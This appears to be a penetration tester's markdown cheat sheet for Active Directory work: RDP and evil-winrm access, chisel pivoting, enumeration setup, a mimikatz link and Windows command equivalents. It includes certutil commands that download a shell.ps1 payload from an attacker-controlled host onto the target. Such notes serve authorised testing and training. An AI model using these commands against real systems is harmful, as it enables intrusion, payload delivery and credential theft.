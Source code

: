 # Active Directory


RDP to connect to jumphost: `xfreerdp /u:${DOMAIN}\\${user} /p:${password} /cert:ignore /v:$RHOST /smart-sizing`
In order to add a shared drive with `xfreedrp`, use `/drive:tmp,/tmp`.
Note that the shared drive can now be accessed programmatically by using the path `\\tsclient\tmp` on the Windows host.

When pivoting with eg. chisel, it can be used with socks proxy by adding `/proxy:"socks5://127.0.0.1:1080"`.

Also note that if `xfreerdp` is giving you issues, you can also use `rdesktop`.


## evil-winrm

Connect to windows host via WinRM with (from kali)
```
evil-winrm -i ${RHOST} -u ${USER} -p ${PW}
```
special characters might need to be escaped from the password.

## Enumeration

### Initial setup

Set network connection credentials to given user on Windows with:
```
runas.exe /netonly /user:<domain>\<username> cmd.exe
```
Commands used for configuring DNS to the domain controller manually in PS:
```
$dnsip = "${DC_IP}"
$index = Get-NetAdapter -Name '${Network_Interface}' | Select-Object -ExpandProperty 'ifIndex'
Set-DnsClientServerAddress -InterfaceIndex $index -ServerAddresses $dnsip
```
`${Network_Interface}` is interface of the network


verify by using nslookup afterwards.


## Post Exploit

[mimikatz cheatsheet](https://kashz.gitbook.io/kashz-jewels/cheatsheet/mimikatz)


## CMD commands to remember

CMD equivalent of wget
```
certutil.exe -urlcache -split -f http://{ATTACKER_IP}:{ATTACKER_PORT}/shell.ps1
```
and choose location by setting the name afterwards:

```
certutil.exe -urlcache -split -f http://{ATTACKER_IP}:{ATTACKER_PORT}/shell.ps1 C:\\Users\\Public\\shell.ps1
```


grep equivalent for cmd: `findstr`

remove a file with force: `del /f`



## Access shared drives

Assuming there is a shared drive on `${COMPUTER_NAME}\shared`, and we have a powershell prompt with access to this shared drive,
we can just do eg `ls ${COMPUTER_NAME}\shared` and other cli commands.

This also works if we have loaded a TGS that grants the access.
